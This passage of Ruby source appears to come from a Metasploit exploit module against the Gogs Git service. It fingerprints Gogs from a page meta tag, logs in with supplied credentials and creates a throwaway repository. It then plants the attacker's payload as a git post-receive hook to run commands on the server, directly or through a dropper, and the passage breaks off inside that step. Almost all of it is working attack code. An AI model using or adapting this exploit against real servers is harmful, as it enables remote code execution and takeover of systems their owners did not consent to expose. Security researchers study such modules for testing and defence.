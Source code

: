         register_options([
          Opt::RPORT(3000),
          OptString.new('TARGETURI', [true, 'Base path', '/']),
          OptString.new('USERNAME', [true, 'Username to authenticate with']),
          OptString.new('PASSWORD', [true, 'Password to use']),
        ])

        @need_cleanup = false
      end

      def check
        res = send_request_cgi(
          'method' => 'GET',
          'uri' => normalize_uri(target_uri.path)
        )
        unless res
          return CheckCode::Unknown('Target did not respond to check.')
        end

        # <meta name="author" content="Gogs" />
        unless res.body.match(%r{<meta +name="author" +content="Gogs" */>})
          return CheckCode::Unsupported('Target does not appear to be running Gogs.')
        end

        CheckCode::Appears('Gogs found')
      end

      def exploit
        print_status("Executing #{target.name} for #{datastore['PAYLOAD']}")

        print_status("Authenticate with \"#{datastore['USERNAME']}/#{datastore['PASSWORD']}\"")
        gogs_login
        print_good('Logged in')

        @repo_name = [Faker::App.name, Faker::App.name].join('_').gsub(' ', '_')
        print_status("Create repository \"#{@repo_name}\"")
        gogs_create_repo
        @need_cleanup = true
        print_good('Repository created')

        case target['Type']
        when :unix_cmd, :win_cmd
          execute_command(payload.encoded)
        when :linux_dropper, :win_dropper
          execute_cmdstager(background: true, delay: 1)
        end
      end

      def execute_command(cmd, _opts = {})
        vprint_status("Executing command: #{cmd}")

        print_status('Setup post-receive hook with command')
        gogs_post_receive_hook(cmd)
        print_good('Git hook setup')
